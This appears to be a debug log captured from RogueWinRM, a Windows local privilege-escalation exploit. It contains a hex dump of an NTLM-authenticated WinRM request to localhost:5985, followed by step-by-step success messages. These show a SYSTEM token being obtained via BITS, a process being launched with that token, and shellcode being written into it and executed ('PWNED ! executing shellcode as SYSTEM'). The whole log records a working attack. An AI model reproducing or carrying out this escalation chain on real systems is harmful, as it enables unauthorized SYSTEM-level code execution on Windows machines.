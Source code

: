 ```
86  1.28766000	[7188] [hexDump]   0050  3b 63 68 61 72 73 65 74 3d 55 54 46 2d 31 36 0d  ;charset=UTF-16.
87  1.28767395	[7188] [hexDump]   0060  0a 41 75 74 68 6f 72 69 7a 61 74 69 6f 6e 3a 20  .Authorization:
88  1.28775859	[7188] [hexDump]   0070  4e 65 67 6f 74 69 61 74 65 20 6f 58 63 77 64 61  Negotiate oXcwda
89  1.28778541	[7188] [hexDump]   0080  41 44 43 67 45 42 6f 6c 6f 45 57 45 35 55 54 45  ADCgEBoloEWE5UTE
90  1.28787005	[7188] [hexDump]   0090  31 54 55 31 41 41 41 77 41 41 41 41 41 41 41 41  1TU1AAAwAAAAAAAA
91  1.28789675	[7188] [hexDump]   00a0  42 59 41 41 41 41 41 41 41 41 41 46 67 41 41 41  BYAAAAAAAAAFgAAA
92  1.28798091	[7188] [hexDump]   00b0  41 41 41 41 41 41 57 41 41 41 41 41 41 41 41 41  AAAAAAWAAAAAAAAA
93  1.28800118	[7188] [hexDump]   00c0  42 59 41 41 41 41 41 41 41 41 41 46 67 41 41 41  BYAAAAAAAAAFgAAA
94  1.28809083	[7188] [hexDump]   00d0  41 41 41 41 41 41 57 41 41 41 41 44 58 43 69 4f  AAAAAAWAAAADXCiO
95  1.28811765	[7188] [hexDump]   00e0  49 4b 41 4c 70 48 41 41 41 41 44 79 65 33 4e 77  IKALpHAAAADye3Nw
96  1.28817153	[7188] [hexDump]   00f0  34 39 70 77 2f 4f 35 37 6d 67 42 70 66 51 59 57  49pw/O57mgBpfQYW
97  1.28822196	[7188] [hexDump]   0100  4b 6a 45 67 51 51 41 51 41 41 41 4f 6e 6d 38 2b  KjEgQQAQAAAOnm8+
98  1.28828132	[7188] [hexDump]   0110  45 37 77 57 65 36 41 41 41 41 41 41 3d 3d 0d 0a  E7wWe6AAAAAA==..
99  1.28834140	[7188] [hexDump]   0120  55 73 65 72 2d 41 67 65 6e 74 3a 20 4d 69 63 72  User-Agent: Micr
100 1.28840005	[7188] [hexDump]   0130  6f 73 6f 66 74 20 57 69 6e 52 4d 20 43 6c 69 65  osoft WinRM Clie
101 1.28845811	[7188] [hexDump]   0140  6e 74 0d 0a 43 6f 6e 74 65 6e 74 2d 4c 65 6e 67  nt..Content-Leng
102 1.28851688	[7188] [hexDump]   0150  74 68 3a 20 30 0d 0a 48 6f 73 74 3a 20 6c 6f 63  th: 0..Host: loc
103 1.28857553	[7188] [hexDump]   0160  61 6c 68 6f 73 74 3a 35 39 38 35 0d 0a 0d 0a     alhost:5985....
104 1.28857553	[7188]
105 1.28861415	[7188] [handleNTLMPConnection] Using ntlm type3 response in AcceptSecurityContext()...
106 1.28866363	[7188] [processNtlmBytes] -- handleType3 start --
107 1.28932333	[7188] [HandleType3] Result of AcceptSecurityContext() = status: 0x0--
108 1.28935909	[7188] [processNtlmBytes] -- handleType3 end --
109 1.28939426	[7188] [handleNTLMPConnection] Shutting down RogueWinRM service properly...
110 1.28953993	[7188] [handleNTLMPConnection] RogueWinRM service is now down.
111 1.32062924	[7188] [triggerBits] SUCCESS: BITS triggered!
112 1.32064247	[7188] [RunRogueWinRM] authresult 0
113 1.32069910	[7188] [IsTokenSystem] Checking if token is SYSTEM...
114 1.32073796	[7188] [IsTokenSystem] SUCCESS: Token is SYSTEM.
115 1.32080293	[7188] [RunRogueWinRM] Launching new process through CreateProcessWithTokenW().
116 1.32268882	[7188] [RunRogueWinRM] SUCCESS: target process launched as SYSTEM.
117 1.32270396	[7188] [RunRogueWinRM] Attempting to allocate executable memory space in spawned process...
118 1.32278264	[7188] [RunRogueWinRM] SUCCESS: executable memory space successfully allocated.
119 1.32282817	[7188] [RunRogueWinRM] Attempting to write shellcode in spawned process...
120 1.32286501	[7188] [RunRogueWinRM] SUCCESS: shellcode written into SYSTEM process.
121 1.32288563	[7188] [RunRogueWinRM] Attempting to trigger shellcode from spawned process...
122 1.32295120	[7188] [RunRogueWinRM] PWNED ! executing shellcode as SYSTEM.
123 1.32297337	[7188] [dllmain] Exit status: 0
```
